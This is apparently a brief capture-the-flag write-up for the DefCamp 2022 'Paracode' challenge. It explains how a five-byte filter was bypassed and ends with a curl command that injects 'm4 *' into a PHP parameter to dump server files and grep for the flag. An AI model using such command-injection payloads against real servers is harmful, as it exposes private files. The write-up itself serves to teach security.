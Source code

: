 <h1>DefCamp 2022 Paracode</h1>

<b>Note:</b> Our limit is 5 bytes without the string containing any of the combo in the array provided in the index.php. I went through and sorted out all 2 letter Linux commands that can
output all input. I came to the conclusion that m4 works well, with a wild card.
```
curl -X GET "http://34.159.7.96:32210/?start=m4+*" 2>&1 | grep '$flag' | sed 1q
```
